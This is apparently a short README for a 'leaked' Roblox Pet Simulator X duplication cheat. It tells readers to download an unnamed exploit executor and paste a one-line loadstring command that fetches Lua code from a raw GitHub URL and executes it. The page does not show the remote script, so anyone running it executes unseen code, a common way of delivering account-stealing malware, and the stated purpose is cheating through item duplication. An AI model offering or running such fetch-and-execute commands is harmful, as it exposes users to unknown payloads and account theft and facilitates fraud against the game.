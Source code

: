 # Leaked Pet Simulator X Duplication Script

# HOW TO USE IT?
1. Download any exploit
2. Open the exploit
3. Paste loadstring(game:HttpGet("https://raw.githubusercontent.com/WxRserver/psx-dupe/main/script.lua",true))()
4. Execute And Wait Till The Script Automatically Duped it For you

